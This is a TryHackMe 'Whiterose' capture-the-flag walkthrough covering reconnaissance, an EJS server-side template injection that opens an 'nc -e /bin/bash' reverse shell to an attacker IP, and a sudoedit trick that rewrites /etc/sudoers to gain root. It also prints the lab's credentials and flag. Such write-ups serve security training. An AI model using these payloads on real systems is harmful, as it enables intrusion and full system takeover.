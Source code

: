 ```yaml
---
title: "TryHackMe - Whiterose Walkthrough"
date: 2024-12-22
categories: [TryHackMe]
tags: [SSTI, RCE, Privilege Escalation]
image: assets/images/whiterose-banner.jpg
---
```


# TryHackMe - Whiterose Walkthrough

---

## Initial Information
- **Username:** Olivia Cortez  
- **Password:** olivi8  

---

## Step 1: Nmap Scan

Run an Nmap scan to identify open ports and services:

```bash
sleep33@THM:~$ nmap -v -sVC -p- -oN nmap.txt $IP
```

### Results:
- **Port 22 (SSH):** OpenSSH 7.6p1 Ubuntu  
- **Port 80 (HTTP):** nginx 1.14.0 (Ubuntu)  

---

## Step 2: Configure Hosts File

Add the following to your `/etc/hosts` file:

```plaintext
sleep33@THM:~$ echo "10.246.13 cyprusbank.thm" | sudo tee -a /etc/hosts
```

---

## Step 3: Subdomain Enumeration

Enumerate subdomains using `ffuf`:

```bash
sleep33@THM:~$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -fw 1
```

### Found Subdomains:
- **www**: [200 OK]  
- **admin**: [302 Redirect]  

Add the following to your `/etc/hosts`:

```plaintext
sleep33@THM:~$ echo "10.246.13 admin.cyprusbank.thm" | sudo tee -a /etc/hosts
```

---

## Step 4: Admin Panel Access

1. Visit `http://admin.cyprusbank.thm/`.
2. Log in with:
   - **Username:** Olivia Cortez  
   - **Password:** olivi8  

---

## Step 5: Messages Exploration

Navigate through messages using the following URL format:

```bash
sleep33@THM:~$ curl http://admin.cyprusbank.thm/messages/?c=<number>
```

### Key Findings:
- **Credentials:**  
  ```plaintext
  GayleBev: p~]P@5!6;rs558:q
  ```
- **Phone Number:**  
  ```plaintext
  Tyrell Wellick: 842-029-5701
  ```

---

## Step 6: Exploiting SSTI (Server-Side Template Injection)

### Exploitation
Send a POST request to `/settings` using the following payload:

```bash
sleep33@THM:~$ curl -X POST -d "name=admin&password=admin&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('nc -e /bin/bash 10.14.91.33 4443');" http://admin.cyprusbank.thm/settings
```

---

## Step 7: Reverse Shell Setup

Set up a listener on your local machine:

```bash
sleep33@THM:~$ nc -lvnp 4443
```

---

## Step 8: Privilege Escalation

### Check Sudo Permissions

```bash
sleep33@THM:~$ sudo -l
```

### Exploit `sudoedit`

1. Export the editor:
   ```bash
   sleep33@THM:~$ export SUDO_EDITOR='nano -- /etc/sudoers'
   ```
2. Run:
   ```bash
   sleep33@THM:~$ sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
   ```

### Modify Sudoers File:
Add the following:

```plaintext
web ALL=(ALL:ALL) NOPASSWD: ALL
```

---

## Step 9: Gain Root

Switch to the root user:

```bash
sleep33@THM:~$ sudo bash
```

Navigate to `/root` and read the flag:

```bash
sleep33@THM:~$ cd /root
sleep33@THM:~$ cat root.txt
```

**Root Flag:**  
```plaintext
THM{4nd_uR_p4ck4g3s}
```

---
